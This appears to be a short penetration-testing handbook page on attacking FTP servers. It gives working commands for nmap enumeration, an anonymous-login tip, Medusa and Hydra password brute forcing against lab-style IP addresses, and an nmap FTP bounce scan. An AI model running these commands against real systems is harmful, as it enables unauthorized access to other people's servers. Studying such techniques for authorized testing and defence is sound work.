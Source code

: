 ```yaml
---
title: "Attacking FTP"
type: handbook
weight: 2
---
```


The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

### Enumeration

```bash
sudo nmap -sC -sV -p 21 <ip-address>
```

### Misconfigurations

#### Anonymous Authentication

To access with anonymous login, we can use the `anonymous` username and no password. 

### Protocol Specifics Attacks

#### Brute Forcing

We can use [Medusa](https://github.com/jmk-foofus/medusa) to perform brute-forcing.

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

Hydra Usage -

```bash
hydra -L users.list -P passwords.list ftp://<ip-address>:<port> -V -t 8 -f
```

#### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

![FTP Bounce Attack](ftp_bounce_attack.webp)

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
